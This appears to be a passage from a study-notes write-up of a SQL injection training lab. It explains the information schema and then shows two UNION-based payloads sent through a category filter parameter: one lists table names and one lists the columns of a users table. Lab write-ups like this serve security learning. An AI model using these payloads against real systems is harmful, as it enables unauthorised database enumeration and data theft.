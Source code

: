 Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

We start by looking at the interesting tables

```
GET /filter?category=Lifestyle' UNION SELECT table_name, null FROM information_schema.tables--
```

<figure><img src="../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

then check the columns in that table to print out the interesting values

```
GET /filter?category=Lifestyle' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_znlzdn'--
```

<figure><img src="../.gitbook/assets/image (817).png" alt=""><figcaption></figcaption></figure>
